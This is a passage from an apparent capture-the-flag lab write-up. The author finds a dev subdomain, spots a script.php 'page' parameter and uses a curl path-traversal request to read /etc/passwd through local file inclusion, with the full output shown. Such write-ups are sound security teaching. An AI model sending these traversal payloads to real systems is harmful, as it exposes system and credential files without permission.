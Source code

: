 Well, that's more interesting. As this is a subdomain it needs also to be added to the /etc/hosts file.
The host file should look like this now:
````
# This file was automatically generated by WSL. To stop automatic generation of this file, add the following entry to /etc/wsl.conf:
# [network]
# generateHosts = false
127.0.0.1       localhost
127.0.1.1       DESKTOP-S16G0DL.        DESKTOP-S16G0DL
10.10.28.97     team.thm dev.team.thm

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
````

I could use a browser to check the site but I'm trying to get better with CLI so I just used curl.
````
curl http://dev.team.thm
<html>
 <head>
  <title>UNDER DEVELOPMENT</title>
 </head>
 <body>
  Site is being built<a href=script.php?page=teamshare.php </a>
<p>Place holder link to team share</p>
 </body>
</html>
````

The site has a link to a "script.php?page=teamshare.php". The site just has the line "Place holder for future team share".
Script.php uses the "page=" parameter to load the "teamshare.php" file and it might be vulnerable to LFI.
LFI is easy to test by trying to load a file that every Linux OS has, "/etc/passwd".
````
curl http://dev.team.thm/script.php?page=../../../../../../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
````